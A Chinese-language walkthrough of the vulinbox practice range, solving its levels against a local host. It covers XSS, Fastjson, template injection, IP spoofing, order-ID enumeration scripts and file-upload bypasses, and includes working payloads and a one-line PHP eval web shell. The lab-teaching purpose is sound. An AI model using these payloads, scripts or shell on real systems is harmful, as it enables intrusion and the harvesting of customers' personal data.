# vulinbox靶场全解

无源码练习


## XSS 多场景

做起前须知，关于鼠标事件的响应有很多，在做题时某些payload方法和原来script冲突，可以更换方法

### 鼠标响应

| 方法              | 触发时机                 |
| ----------------- | ------------------------ |
| **onmousemove**   | 鼠标在元素上移动时。     |
| **onmouseover**   | 鼠标进入元素时。         |
| **onmouseout**    | 鼠标离开元素时。         |
| **onmouseenter**  | 鼠标进入元素时，不冒泡。 |
| **onmouseleave**  | 鼠标离开元素时，不冒泡。 |
| **onmousedown**   | 鼠标按钮在元素上按下时。 |
| **onmouseup**     | 鼠标按钮在元素上释放时。 |
| **onclick**       | 鼠标在元素上点击时。     |
| **ondblclick**    | 鼠标在元素上双击时。     |
| **oncontextmenu** | 右键点击元素时。         |


### 安全实体转义

无漏洞


### 直接拼接导致XSS注入

直接payload提交

```
http://127.0.0.1/xss/echo?name=<script>alert(1)</script>
```


### 不安全的过滤导致XSS

由于是无源码，所以不知道采取了什么过滤策略，故还是先提交基础payload进行尝试

```
http://127.0.0.1/xss/replace/nocase?name=%3Cscript%3Ealert(1)%3C/script%3E
```

发现`<script>`和`</script>`都被过滤掉了

这里直接双写绕过

```
http://127.0.0.1/xss/replace/nocase?name=<scr<script>ipt>alert(1)</scr</script>ipt>
```


### XSS : 存在于JS代码中(字符串中)

还是一样，直接提交

```
http://127.0.0.1/xss/js/in-str?name=%3Cscript%3Ealert(1)%3C/script%3E
```



直接构造payload

```
http://127.0.0.1/xss/js/in-str?name=</script><script>alert(1)</script>
```

成功弹窗


### XSS : 存在于JS代码中(字符串中2)

一样先提交初始payload

```
http://127.0.0.1/xss/js/in-str2?name=<script>alert(1)</script>
```



直接构造payload：（还是一样的）

```
http://127.0.0.1/xss/js/in-str2?name=</script><script>alert(1)</script>
```


### XSS : 存在于JS代码中(字符串模板中)

废话就省略了，去试试



构造payload：（还是一样的payload可以alert）

```
http://127.0.0.1/xss/js/in-str-temp?name=</script><script>alert(1)</script>
```


### 输出存在于HTML节点on...属性中

```
http://127.0.0.1/xss/attr/onclick?code=<script>alert(1)</script>
```



常规，直接构造payload：

```
http://127.0.0.1/xss/attr/onclick?code=javascript:alert(1)
```

然后点击Yak的图片就可以了


### 输出存在于HTML节点属性中，但是不再on属性中(IMG ALT)

注意原始的链接：

```
http://127.0.0.1/xss/attr/alt?value=visitor-name
```




构造payload：

```
http://127.0.0.1/xss/attr/alt?value=' onmouseover='alert(1)
```

更改后的标签如下：

```

```


### 进阶1：输出存在于HTML节点属性中，但是不再on属性中(IMG ALT)

注意原始的链接：

```
http://127.0.0.1/xss/attr/alt/json?json={"value":"value=visitor-name"}
```




所以按道理可以payload如下：

```
http://127.0.0.1/xss/attr/alt/json?json={"value":"'+onmouseover='alert(1)"}
```

更改后的元素如下：

```

```


### 进阶2：输出存在于HTML节点属性中，但是不再on属性中(IMG ALT)

原始链接：

```
http://127.0.0.1/xss/attr/alt/b64/json?b64json=eyJ2YWx1ZSI6InZhbHVlPXZpc2l0b3ItbmFtZSJ9
```

后面的字符串看起来就很base64，所以我们解码看一下

```
{"value":"value=visitor-name"}
```

那就没啥好说的，跟上一题一样，然后将内容base64编码即可

```
{"value":"' onmouseover='alert(1)"}
```

```
eyJ2YWx1ZSI6Iicgb25tb3VzZW92ZXI9J2FsZXJ0KDEpIn0=
```


最终payload

```
http://127.0.0.1/xss/attr/alt/b64/json?b64json=eyJ2YWx1ZSI6Iicgb25tb3VzZW92ZXI9J2FsZXJ0KDEpIn0=
```


### 输出存在于HTML节点属性中，但是不再on属性中(IMG SRC)

原始链接：

```
http://127.0.0.1/xss/attr/src?src=/static/logo.png
```

这很明显就是文件的路径

所以构造如下：

```
http://127.0.0.1/xss/attr/src?src=/static/logo.png" onmouseover="alert(1)
```


### 输出存在于HTML节点属性中，但是不再on属性中(HREF)

原始链接依旧：

```
http://127.0.0.1/xss/attr/href?href=/static/logo.png
```



构造payload如下：

```
http://127.0.0.1/xss/attr/href?href='oncontextmenu='alert(1)
```

onmouse的属性挺多的


### 输出存在于HTML节点on...属性中的部分代码属性

原链接：

```
http://127.0.0.1/xss/attr/onclick2?code=2-1
```

原链接好像就能完成xss，不太懂意思，难道是要将原来的alert给弄掉，换成可任意的xss？


### script标签的某些属性中

原链接：

```
http://127.0.0.1/xss/attr/script?name=OrdinaryVisitor
```



构造payload：

```
http://127.0.0.1/xss/attr/script?name=<button onclick=javascript:alert(1)>XSS</button>
```


### Cookie 中的 XSS

看代码：



接收cookie中的数据而且还在控制台中输出


直接BP抓包修改：

```
Cookie: xCname=`+alert(1)+`
```



因为控制台修改Cookie后控制台的代码变为如下：

```
console.info("hello" + `UserAdmin:`+alert(1)+``);
```


### Cookie 中的 XSS（Base64-json）

也是一样：



BP拦截发现：

```
Cookie: xCnameB64=T3JkaW5hcnlVc2Vy; xCname=UserAdmin
```

经过实验，前者就是真正的参数，使用了base64编码

所以将上一道题的payload进行编码：

```
`+alert(1)+`
```

```
YCthbGVydCgxKStg
```

即可弹窗


### Cookie 中的 XSS（Base64-JSON)

还是一样，真正的参数在向`xCnameB64J`

```
eyJuYW1lIjoieENuYW1lQjY0Si1PcmRpbmFyeVVzZXIifQ==
```

解码后的结果：

```
{"name":"xCnameB64J-OrdinaryUser"}
```


故直接构造：

```
{"name":"`+alert(1)+`"}
```

```
eyJuYW1lIjoiYCthbGVydCgxKStgIn0=
```


即可成功弹窗！


## Fastjson 案例

fastjson是阿里巴巴开发的json库

### GET 传参案例案例

原链接：

```
http://127.0.0.1/fastjson/json-in-query?auth={"user":"admin","password":"password"}
```


构造：

```
http://127.0.0.1/fastjson/json-in-query?auth={"@type":"java.net.Inet4Address","val":"dnslog"}&action=login
```


### POST Form传参案例案例


### POST Body传参案例案例


### Cookie 传参案例案例


### Authorization 传参案例案例


### GET 传参Jackson后端案例


### 网络不稳定的靶站


### GET 传参且应用部署在内网的案例


### 

## 表达式注入或SSTI仿真

### 表达式注入GET参数基础

```
http://127.0.0.1/expr/injection?a=1
```


payload：

```
http://127.0.0.1/expr/injection?a={{5-1}}
```


### JSON 中表达式注入参数

```
http://127.0.0.1/expr/injection?b={"a":1}
```


payload：

```
http://127.0.0.1/expr/injection?b={"a":"{{5-1}}"}
```


### 表达式注入GET参数基础（非数字）

```
http://127.0.0.1/expr/injection?c=abc
```

payload

```
http://127.0.0.1/expr/injection?c={{5-1}}
```


上述三个都是参数，我们可以一起提交：

```
http://127.0.0.1/expr/injection?a={{5-1}}&b={"a":"{{5-1}}"}&c={{5-1}}
```

三个参数传递都有不同类型的表达式注入漏洞


## ip伪造

### ip伪造登录（本地IP伪造）

账号密码随意输入，然后抓包进行修改，增加下面的一行

```
X-Forwarded-For: 127.0.0.1
```


成功登录


### ip伪造（爆破）


## 遍历与爆破练习

### 订单详情页面（爆破 / 遍历订单号为4位数字 0-9999）

初始链接：

```
http://127.0.0.1/bruteplayground/by-order-id?orderId=3321
```


直接写脚本吧

```python
import requests
from bs4 import BeautifulSoup

base_url = "http://127.0.0.1/bruteplayground/by-order-id"
start_id = 0
end_id = 9999
cookies = {}
headers = {}

for order_id in range(start_id, end_id + 1):
    url = f"{base_url}?orderId={order_id}"
    try:
        response = requests.get(url,headers=headers, cookies=cookies)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            card = soup.find('div', class_='card')
            if card:
                order_info = {
                    "订单ID": card.find('p', string=lambda x: x and '订单ID:' in x).text.split(': ')[1],
                    "客户姓名": card.find('p', string=lambda x: x and '客户姓名:' in x).text.split(': ')[1],
                    "客户电话": card.find('p', string=lambda x: x and '客户电话:' in x).text.split(': ')[1]
                }
                print(f"ID {order_id} 存在，订单信息: {order_info}")
        else:
            print(f"ID {order_id} 请求失败，状态码: {response.status_code}")

    except requests.exceptions.RequestException as e:
        print(f"请求ID {order_id} 时出错: {e}")
```


运行脚本：



### 订单详情页面（爆破 / 遍历订单号为今日日期+4位数字 0000-9999）

初始链接：

```
http://127.0.0.1/bruteplayground/by-order-id-2?orderId=202502230001
```

脚本按理来说应该如下：但是跑不出来，不知道是不是我的数据库问题

```python
import requests
from bs4 import BeautifulSoup
from datetime import datetime

base_url = "http://127.0.0.1/bruteplayground/by-order-id-2"
start_id = 0
end_id = 9999
cookies = {}
headers = {
    "Host": "127.0.0.1:",
    "User-Agent":"Mozilla/5.0" ,
    "Accept": "*/*",
    "Connection": "close",
}
years=datetime.today().year
months=datetime.today().month
days=datetime.today().day

for order_id in range(start_id, end_id + 1):
    url = f"{base_url}?orderId={years}{months:02}{days:02}{order_id:04}"
    try:
        response = requests.get(url,headers=headers, cookies=cookies)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            if "订单号不存在" not in soup.text:
                print(f"{order_id}: {response.url}")
        else:
            print(f"ID {order_id} 请求失败，状态码: {response.status_code}")

    except requests.exceptions.RequestException as e:
        print(f"请求ID {order_id} 时出错: {e}")
```


### 订单详情页面：traceId不重复（爆破/遍历订单号）

初始链接：

```
http://127.0.0.1/bruteplayground/by-order-id-3?orderId=3321&tradeId=1234567890
```


每一次的`tradeId`都是会进行改变的，所以我们应该找到`tradeId`是哪里传过来的，以及在数据包的哪里可以提取到！


很遗憾并没有直接能看到的`tradeId`，经过尝试，可以自己修改，只要没有使用过的都可以：

所以脚本如下：

```python
import random
import requests
from bs4 import BeautifulSoup
from datetime import datetime

base_url = "http://127.0.0.1/bruteplayground/by-order-id-3"
start_id = 0
end_id = 9999
cookies = {}
headers = {}

years=datetime.today().year
months=datetime.today().month
days=datetime.today().day

for order_id in range(start_id, end_id + 1):
    tradeId = random.randint(0, 10**10)
    url = f"{base_url}?orderId={order_id:04}&tradeId={tradeId:10}"
    try:
        response = requests.get(url,headers=headers, cookies=cookies)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            card = soup.find('div', class_='card')
            if card:
                order_info = {
                    "订单ID": card.find('p', string=lambda x: x and '订单ID:' in x).text.split(': ')[1],
                    "客户姓名": card.find('p', string=lambda x: x and '客户姓名:' in x).text.split(': ')[1],
                    "客户电话": card.find('p', string=lambda x: x and '客户电话:' in x).text.split(': ')[1]
                }
                print(f"ID {order_id} 存在，订单信息: {order_info}")
        else:
            print(f"ID {order_id} 请求失败，状态码: {response.status_code}")

    except requests.exceptions.RequestException as e:
        print(f"请求ID {order_id} 时出错: {e}")
```


运行结果：




建议：

- 如果是服务器刚开始就运行代码，建议可以递增取`tradeId`，因为所有的`tradeId`都没有被使用过，如果是已经测试很多遍的脚本程序，那可以使用`random`函数进行提取，只不过数据范围要越过之前用过的`ID`


## 文件上传案例

### 基础文件上传案例

直接新建`shell.php`文件

```php
<?php @eval($_POST['cmd'])?>
```

直接上传，然后蚁剑连接




### 图片上传（NullByte 截断类型）绕过

还是一样的文件，选择上传，发现如下：




发现他是检查图片类型

那我们进行抓包修改文件名：

```
shell.php%00.jpg
```




成功上传了




### 图片上传（MIME 类型伪造）绕过

MIME类型检测，也是可以抓包绕过的

其中MIME类型有许多，一般是通过HTTP请求包的`Content-Type`字段来进行判断

```
text/plain（纯文本）
text/html（HTML 文档）
text/javascript（js 代码）
application/xhtml+xml（XHTML 文档）
image/gif（GIF 图像）
image/jpeg（JPEG 图像）
image/png（PNG 图像）
video/mpeg（MPEG 动画）
application/octet-stream（二进制数据）
application/pdf（PDF 文档）
```


还是一样上传文件，然后进行抓包，将`application/octet-stream`修改为`image/jpeg`




成功上传




### CVE-2017-15715：Apache HTTPD 换行解析漏洞

Apache HTTPD 换行解析漏洞是一种 Web 服务器（Apache HTTPD）的安全漏洞，也被称为 CRLF 注入漏洞。

多语言编码的 Content-Disposition ：

```
Content-Disposition: form-data; name="filename"; filename*=UTF-8''1.php%0a.jpg
```







### 图片上传：检查文件头

这时候上传的时候修改协议包的那些标识都是不管用的了




这时候直接上传图片马即可

本地找到图片和shell.php

```
copy xxx.png/b + shell.php/a shell.png
```

可以看到协议包内容



成功上传



